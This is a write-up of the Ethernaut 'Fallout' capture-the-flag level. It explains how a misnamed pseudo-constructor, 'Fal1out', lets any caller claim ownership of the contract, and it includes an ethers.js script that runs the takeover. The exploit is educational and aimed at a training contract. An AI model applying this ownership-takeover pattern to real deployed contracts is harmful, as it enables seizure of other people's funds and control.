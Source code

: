 ```yaml
---
description: In Ethernaut's Fallout, we learn a quick lesson about constructor syntax.
---
```


# 2 - Fallout

To complete [this level](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5) we need to claim ownership of its `Fallout` contract.

### Hints

<details>

<summary>Hint One</summary>

The only function in the contract that assigns a value to `owner` is its "constructor", `Fal1out`. Is this function really what it seems?

</details>

### Full Walkthrough

#### Claiming Ownership

The `owner` of this contract is set in its "constructor" function `Fal1out` and not reassigned elsewhere in the contract. Note that despite being labelled the constructor in the comment above, this function is not actually the valid constructor for this contract and will not run when it is deployed. If it were a valid constructor, there would be no way for us to take ownership of the contract after it was deployed by another address.

```solidity
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

In some versions of Solidity prior to 0.4.21, a constructor could be defined by naming a function the same name as its contract. This contract, however, is being compiled as version 0.6.0 or higher, and therefor this "constructor" will not run when the contract is deployed.

```solidity
pragma solidity ^0.6.0;
```

Additionally, it is worth noting that the function name does not actually match the contract's name as the function's second "l" is actually the number 1.

Any address that calls the `Fal1out` function will become the contract's owner.

{% hint style="info" %}
**Transactions and calldata**

Coming soon...
{% endhint %}

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { playerWallet, contract: falloutContract } = await setup('Fallout')

  // Check Fallout contract's owner
  console.log(
    `Fallout contract owner is initially: ${await falloutContract.owner()}`
  )

  // Call Fallout contract's 'Fal1out' function
  console.log("Calling Fallout contract's 'Fal1out' function...")
  const falloutFal1out = await falloutContract.Fal1out()
  await falloutFal1out.wait(1)

  // Check Fallout contract's new owner
  const falloutContractOwner = await falloutContract.owner()
  console.log(`Contract owner is now: ${falloutContractOwner}`)
  console.log(
    `Contract owner is player: ${falloutContractOwner === playerWallet.address}`
  )
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })

```

### Key Takeaways

* Some older versions of Solidity allowed for **constructors** to be defined as functions with the **same name as the contract** itself.
* Even a single, simple **syntax error** can become a **security disaster**.
